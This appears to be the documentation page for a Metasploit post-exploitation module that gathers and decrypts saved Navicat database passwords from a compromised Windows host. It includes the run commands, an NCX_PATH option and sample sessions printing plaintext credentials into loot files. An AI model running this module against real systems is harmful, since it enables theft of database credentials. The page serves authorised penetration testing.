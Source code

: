 ## Vulnerable Application

This module can decrypt the password of navicat, If the user chooses to remember the password.

  Analysis of encryption algorithm [here](https://github.com/HyperSine/how-does-navicat-encrypt-password).

  You can find its official website [here](https://navicat.com/).

## Verification Steps

  1. Download the latest installer of Navicat.
  2. Use navicat to log in to DB server.
  3. Remember to save the account password.
  4. Get a `meterpreter` session on a Windows host.
  5. Do: ```run post/windows/gather/credentials/navicat```
  6. If the session file is saved in the system, the host, port, user name and plaintext password will be printed.

## Options

 **NCX_PATH**

  - Specify the path of the NCX export file. e.g.:connections.ncx

## Scenarios

```
meterpreter > run post/windows/gather/credentials/navicat 

*] Gathering Navicat password information from WIN-79MR8QJM50N 
Navicat Sessions 
================

Name            Protocol  Hostname   Port   Username  Password
----            --------  --------   ----   --------  --------
mongodb         mongodb   localhost  27017  user      password  
test_mysql      mysql     localhost  3306   root      test_mysql_password 
test_oracle     oracle    127.0.0.1  1521   user      password
test_pg         postgres  localhost  5432   postgres  test_pg_password
test_sqlserver  mssql     127.0.0.1  1433   user      password

[+] Session info stored in: /home/kali-team/.msf4/loot/20221002233644_default_192.168.80.128_host.navicat_ses_919319.txt
[*] Post module execution completed
meterpreter > 
```

* Specify **NCX_PATH**

```
msf6 post(windows/gather/credentials/navicat) > set ncx_path C:\\Users\\FireEye\\Desktop\\connections.ncx
ncx_path => C:\Users\FireEye\Desktop\connections.ncx
msf6 post(windows/gather/credentials/navicat) > run

[*] Gathering Navicat password information from WIN-79MR8QJM50N
[*] Looking for C:\Users\FireEye\Desktop\connections.ncx
[+] navicat.ncx saved to /home/kali-team/.msf4/loot/20221002234356_default_192.168.80.128_navicat.creds_838577.txt
Navicat Sessions
================

Name            Protocol  Hostname   Port   Username  Password
----            --------  --------   ----   --------  --------
mongodb         mongodb   localhost  27017  user      password  
test_mysql      mysql     localhost  3306   root      test_mysql_password 
test_oracle     oracle    127.0.0.1  1521   user      password
test_pg         postgres  localhost  5432   postgres  test_pg_password
test_sqlserver  mssql     127.0.0.1  1433   user      password

[+] Session info stored in: /home/kali-team/.msf4/loot/20221002234356_default_192.168.80.128_host.navicat_ses_522370.txt
[*] Finished processing C:\Users\FireEye\Desktop\connections.ncx
[*] Post module execution completed


```